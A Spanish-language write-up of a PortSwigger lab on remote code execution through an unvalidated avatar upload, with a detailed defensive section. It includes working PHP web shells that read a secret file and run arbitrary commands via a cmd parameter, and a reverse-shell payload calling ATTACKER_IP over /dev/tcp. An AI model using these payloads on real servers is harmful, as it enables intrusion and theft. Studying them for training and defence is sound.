

# Writeup: Remote code execution via web shell upload (PortSwigger)

- **Lab**: Remote code execution via web shell upload
- **URL**: https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload
- **Categoría**: File upload / Web shell / RCE
- **Dificultad**: Apprentice
- **Credenciales**: `wiener:peter`

---

## 1. Objetivo

Leer `/home/carlos/secret` ejecutando código en el server. La app permite subir un avatar en `/my-account` sin validar el tipo de archivo. Subiendo un script PHP y navegando a su URL, el server lo ejecuta y devuelve el output.

Webshell:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Subido vía `POST /my-account/avatar`, queda accesible en `/files/avatars/exploit.php`. Visitar esa URL devuelve el secret.

### Insight central

**File upload sin validación de tipo + ejecución de scripts en el directorio de upload = RCE inmediato**. Las dos condiciones son independientes: el bug A es la falta de validación al subir, el bug B es que el server interpreta archivos del directorio de upload como código (PHP, JSP, ASPX). Cualquiera de las dos cerrada hubiera mitigado el otro: validar extensión bloquea el upload, deshabilitar la ejecución de scripts en `/files/avatars/` bloquea la ejecución aunque el archivo se haya subido. Defensa-en-profundidad clásica — los dos controles existen para que el fallo de uno no implique RCE.

---

## 2. Recon y resolución

### 2.1 Identificar el endpoint correcto

Confusión inicial: la página de un blog post (`/post?postId=7`) tiene un form de comentarios cuyo HTML incluye un campo `<input type="file" name="avatar">` y un botón "Upload". Probar el upload por ese endpoint (`POST /post/comment`) devuelve **400 "Missing parameter"** — el endpoint no acepta el archivo, o requiere otros campos del form de comentarios (email, website) que el lab valida server-side.

El upload real está en **`/my-account`**. Después del login con `wiener:peter`, la página tiene:

```html
<form action="/my-account/avatar" method="POST" enctype="multipart/form-data">
    <input type="file" name="avatar">
    <input type="hidden" name="user" value="wiener">
    <input type="hidden" name="csrf" value="...">
    <button type="submit">Upload</button>
</form>
```

Lección operacional: **la presencia de un input `type="file"` en un form no garantiza que ese form acepte archivos**. El backend define el contrato, no el HTML. Si un endpoint rechaza el upload con error, probar otros endpoints de la app antes de asumir defensa.

### 2.2 Crear el webshell

```bash
echo '<?php echo file_get_contents("/home/carlos/secret"); ?>' > exploit.php
```

Webshell mínimo. PHP se ejecuta server-side, `file_get_contents` lee el archivo (asumiendo que el proceso del web server tiene permiso), `echo` lo escribe en el body de la response.

### 2.3 Subir y ejecutar

1. En `/my-account`, click en "Choose file", seleccionar `exploit.php`, click "Upload". Server responde 200 (probablemente con un redirect a `/my-account`).
2. Refrescar `/my-account`. El campo de avatar ahora muestra una imagen rota: ``. La URL del avatar es donde el archivo quedó accesible.
3. Navegar directo a `https://<lab>/files/avatars/exploit.php`. El server interpreta el PHP, ejecuta `file_get_contents`, devuelve el secret en el body.
4. Pegar el secret en "Submit solution" del lab.

---

## 3. Por qué funciona

### 3.1 Anatomía del bug

Dos bugs independientes que se componen para dar RCE:

**Bug A — falta de validación en el upload**:

```php
// Antipatrón - aceptar cualquier archivo subido
move_uploaded_file($_FILES['avatar']['tmp_name'], '/var/www/files/avatars/' . $_FILES['avatar']['name']);
```

El handler no valida:
- Extensión del archivo (cualquier `.php`, `.jsp`, `.aspx` pasa).
- Content-Type del request (cualquier valor pasa).
- Magic bytes del contenido (cualquier byte pasa).
- Tamaño máximo razonable.

**Bug B — el directorio de upload ejecuta scripts**:

```apache
# Antipatrón - server config sin restricciones en /files/
<Directory /var/www/files>
    AllowOverride None
    Require all granted
</Directory>
```

El web server (Apache, Nginx, IIS) está configurado para procesar archivos `.php` con el motor PHP en cualquier directorio bajo el document root, incluyendo el directorio donde aterriza el upload. La configuración correcta sería deshabilitar la ejecución de scripts en directorios de uploads:

```apache
<Directory /var/www/files>
    php_flag engine off  # PHP no ejecuta acá
    # O: AddType text/plain .php
</Directory>
```

Cualquiera de los dos bugs por sí solo no es RCE:
- Si solo existe Bug A (upload sin validación) pero no Bug B (no se ejecutan scripts), el atacante puede subir archivos pero solo se sirven como bytes inertes. Útil para defacement (subir HTML), no para RCE.
- Si solo existe Bug B (ejecución en directorio público) pero no Bug A (validación bloquea PHP), el atacante no puede colocar el archivo a ejecutar.

La combinación de los dos es la receta canónica de RCE vía upload.

### 3.2 ¿Por qué este lab es Apprentice?

No hay defensas de upload. No hay validación de extensión, Content-Type, magic bytes, ni tamaño. No hay filtros del nombre de archivo. El upload acepta `exploit.php` literal. Es el caso baseline del cluster — los demás labs agregan defensas y enseñan los bypasses específicos:

- Validación de Content-Type → bypass cambiando el header.
- Validación de extensión por blacklist → bypass con extensiones alternativas (`.phtml`, `.php5`).
- Validación de magic bytes → bypass con polyglot (imagen + PHP).
- Validación combinada → composición de bypasses.

Este lab establece **el patrón de explotación**: subir, identificar la URL, ejecutar. Los siguientes labs son variaciones sobre cómo evadir las defensas adicionales.

### 3.3 Webshells útiles más allá del mínimo

El webshell del lab es de un solo comando. Para escenarios reales hay que volver a leer otros archivos sin re-subir:

```php
// Webshell genérico parametrizable
<?php system($_GET['cmd']); ?>
```

Uso: `?cmd=cat /etc/passwd`, `?cmd=id`, `?cmd=ls /home`. Permite ejecutar cualquier comando del shell. PortSwigger no requiere este webshell para resolver el lab pero es la forma genérica.

```php
// Webshell que mete reverse shell
<?php exec('/bin/bash -c "bash -i >& /dev/tcp/ATTACKER_IP/4444 0>&1"'); ?>
```

Uso: visitar la URL una vez, recibir reverse shell en el listener. En PortSwigger los labs no permiten conexiones salientes a hosts arbitrarios (firewall del lab), así que reverse shell directo no funciona. En bug bounty/pentest real es la escalada típica.

```php
// Webshell con autenticación (defensa contra otros atacantes que encuentran el archivo)
<?php if ($_GET['key'] !== 'mySecret') exit; system($_GET['cmd']); ?>
```

Detalle de OPSEC en pentests: si el webshell queda accesible al público, otros atacantes pueden encontrarlo. Mejor protegerlo con un secreto.

### 3.4 ¿Por qué la URL es predecible (`/files/avatars/exploit.php`)?

El server guardó el archivo con el filename original del upload. Eso es el **default frágil**: el path resultante es función directa del input del cliente. Si el server hubiera renombrado a un UUID (`/files/avatars/abc123.dat`), el atacante no sabría dónde está su archivo, y para encontrarlo necesitaría:

- Que la app exponga la URL en el HTML (caso de este lab — el `` reveló la ruta).
- Brute-forcear el filename (impráctico con UUIDs).
- Encontrar otra vulnerabilidad que filtre el path.

Renombrar a un valor server-side opaque (UUID, hash) es defensa-en-profundidad útil incluso si la validación de extensión funciona — convierte un upload "exitoso" en un archivo no-localizable.

### 3.5 Defensa correcta

```php
// Fix - validacion de extension + magic bytes + rename + dir sin scripts
$allowed = ['jpg', 'jpeg', 'png', 'gif'];
$ext = strtolower(pathinfo($_FILES['avatar']['name'], PATHINFO_EXTENSION));
if (!in_array($ext, $allowed)) { http_response_code(400); exit; }

$mime = mime_content_type($_FILES['avatar']['tmp_name']);
if (!in_array($mime, ['image/jpeg', 'image/png', 'image/gif'])) { http_response_code(400); exit; }

// Renombrar a UUID para que el filename del cliente no afecte el path final
$new_name = bin2hex(random_bytes(16)) . '.' . $ext;
move_uploaded_file($_FILES['avatar']['tmp_name'], '/var/www/files/avatars/' . $new_name);
```

Y la config del server:

```apache
<Directory /var/www/files/avatars>
    php_flag engine off
    AddType text/plain .php .phtml .php5 .pht
    Options -ExecCGI
</Directory>
```

5 capas:
1. **Whitelist de extensiones** (no blacklist) — más fácil mantener: definir qué se permite, no qué se prohíbe.
2. **Validación de magic bytes** — el contenido real del archivo, no el filename ni el Content-Type. Detecta polyglot/binary masquerade.
3. **Rename a UUID server-side** — el filename del cliente no afecta el path final.
4. **Almacenamiento fuera del document root** o en directorio sin ejecución — el server no procesa scripts en ese directorio aunque se hayan subido.
5. **Mínimo privilegio** — el proceso del web server no debería poder leer `/home/carlos/secret`. Chroot, contenedor con read-only mount, AppArmor/SELinux limitan el daño.

---

## 4. Resumen



Tres ideas:

1. **RCE vía upload requiere dos bugs simultáneos**: falta de validación al subir + ejecución de scripts en el directorio de upload. Cualquiera de los dos cerrado mitiga al otro. Defensa-en-profundidad: nunca confiar en una sola capa.
2. **HTML del form no es contrato del backend**: el form de comentarios tenía un input `type="file" name="avatar"` que sugería upload, pero el endpoint rechazaba el archivo. El backend define qué endpoints aceptan archivos, no el HTML del browser. Lección operacional: cuando un upload falla, probar otros endpoints de la app antes de asumir defensa.
3. **Filename predecible facilita la explotación**: el server guardó el archivo con el filename del cliente, así que la URL del archivo era predecible (`/files/avatars/exploit.php`). Rename a UUID server-side es defensa-en-profundidad útil incluso si la validación de extensión funciona — convierte upload exitoso en archivo no-localizable.

---

## 5. Contramedidas

1. **Whitelist de extensiones** (no blacklist): definir las extensiones permitidas explícitamente. `if ext not in {'.jpg', '.png', '.gif'}: reject`. Más fácil de auditar que enumerar todas las prohibidas.
2. **Validación de magic bytes**: leer los primeros bytes del archivo y verificar que matchean el tipo declarado. JPEG empieza con `FF D8 FF`, PNG con `89 50 4E 47`, etc. Detecta polyglots y binary masquerade que pasan la validación de extensión.
3. **Rename server-side a UUID/hash**: el filename del cliente nunca debe afectar el path donde el archivo se almacena. `random_bytes(16).hex() + '.' + ext`. Convierte la URL en no-predecible.
4. **Almacenar uploads fuera del document root**: servir el archivo a través de un endpoint dedicado que setea Content-Type apropiado y nunca ejecuta el contenido. El web server nunca toca el archivo directamente.
5. **Si el almacenamiento está bajo el document root, deshabilitar ejecución de scripts**: en Apache, `php_flag engine off` + `Options -ExecCGI` + `AddType text/plain .php .phtml .php5`. En Nginx, `location ~ \.php$ { deny all; }` para el directorio de uploads. En IIS, deshabilitar handlers de ASP/ASPX para el directorio.
6. **Validación del Content-Type en el request**: como defensa-en-profundidad, no como única barrera (el atacante puede setearlo a `image/jpeg` desde Burp). Útil combinado con magic bytes.
7. **Tamaño máximo razonable**: rechazar uploads grandes (DoS via disk fill). Para avatares: 1-2 MB suele ser suficiente.
8. **Antivirus / yara rules sobre uploads**: en stacks corporativos, scan automático de archivos subidos detecta payloads conocidos antes de servir.
9. **Logging y monitoring**: registrar cada upload con (user, IP, filename original, filename final, magic bytes detectados, size). Alertar sobre archivos con magic bytes que no matchean la extensión declarada.
10. **Mínimo privilegio del proceso**: el web server no debe tener permiso de leer fuera de su directorio de trabajo (no `/home/*`, no `/etc/shadow`, no `/root/`). Chroot, contenedor con read-only mount, AppArmor/SELinux. Limita el daño aunque el RCE funcione.

---

## 6. Referencias

- PortSwigger Web Security Academy. (s.f.). *Lab: Remote code execution via web shell upload*. https://portswigger.net/web-security/file-upload/lab-file-upload-remote-code-execution-via-web-shell-upload
- PortSwigger Web Security Academy. (s.f.). *File upload vulnerabilities*. https://portswigger.net/web-security/file-upload
- OWASP Foundation. (s.f.). *Unrestricted File Upload*. https://owasp.org/www-community/vulnerabilities/Unrestricted_File_Upload
- OWASP Foundation. (s.f.). *File Upload Cheat Sheet*. https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
- MITRE Corporation. (2024). *CWE-434: Unrestricted Upload of File with Dangerous Type*. https://cwe.mitre.org/data/definitions/434.html
- MITRE Corporation. (2024). *CWE-94: Improper Control of Generation of Code ('Code Injection')*. https://cwe.mitre.org/data/definitions/94.html
- MITRE Corporation. (2024). *ATT&CK Technique T1190: Exploit Public-Facing Application*. https://attack.mitre.org/techniques/T1190/
- MITRE Corporation. (2024). *ATT&CK Technique T1505.003: Server Software Component — Web Shell*. https://attack.mitre.org/techniques/T1505/003/
- swisskyrepo. (s.f.). *PayloadsAllTheThings — Upload Insecure Files*. https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files
- Stuttard, D., & Pinto, M. (2011). *The Web Application Hacker's Handbook* (2nd ed.). Wiley. Cap. 10 (Attacking Back-End Components — File Upload Vulnerabilities).
- Inventario interno: [`inventario/04-explotacion/web/explotacion-fileupload.md`](../../../inventario/04-explotacion/web/explotacion-fileupload.md)
